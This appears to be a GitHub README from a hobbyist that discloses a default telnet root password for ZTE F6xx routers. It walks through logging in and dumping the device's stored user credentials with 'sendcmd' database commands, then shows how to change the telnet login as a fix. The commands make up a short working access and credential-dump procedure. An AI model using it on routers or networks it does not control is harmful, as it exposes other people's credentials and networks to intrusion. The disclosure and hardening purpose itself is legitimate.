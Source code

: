#  [![creatorb](https://cdn2.iconfinder.com/data/icons/software-development-glyph-black/2048/5396_-_Bug_in_Application-64.png )](https://postimg.org/image/u69xjk8nn/) ZTE F6** bug

I dont want to talk to much, it isn't how to hack wifi, all about what i am explained here it just little bug on zte f6** router devices... no crack, no break, no hack but by telnet we rock.

Required:
  - telnet
  - wifi connected

i think it can be another way to get back your lost password on gui panel of your router device.

> This bug's started

> with zte f6xx default password

> username : root

> password : Zte521

> you can bypass it on telnet

> don't panic isn't someone cant access it

> if s/he isn't connected with your wifi right ?

> but can u make sure if one day no one else can access it

> your wifi, your wifi, your wifi ... our wifi


### POC
Open terminal using telnet to connect your gateway (assume: 192.168.1.1).

```sh
/ # telnet 192.168.1.1
/ # username : root
/ # password : Zte521
```

then if you already loged, try to read database user...

```sh
/ # sendcmd 1 DB p DevAuthInfo
```

thats for f609 sometimes have different table name in another devices you can see all db by:

```sh
/ # sendcmd 1 DB p
```

### Patching

Well its all will going ok
since you had known all table and value.

Change username:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UName NewUserName
```

Change Password:
```sh
/ # sendcmd 1 DB set TelnetCfg 0 TS_UPwd NewPassword
```

Save:
```sh
/ # sendcmd 1 DB save
```
Reboot:
```sh
/ # reboot
```

Well its all how it going, enjoy and stay beware everywhere, btw what news here's my isp have been upgraded some device with no telnet, nice no telnet no Rock-et!


### Todos

 - Bash Checker

License
----

MIT


**Free Software, Rock Yeah!**

~ creatorbe
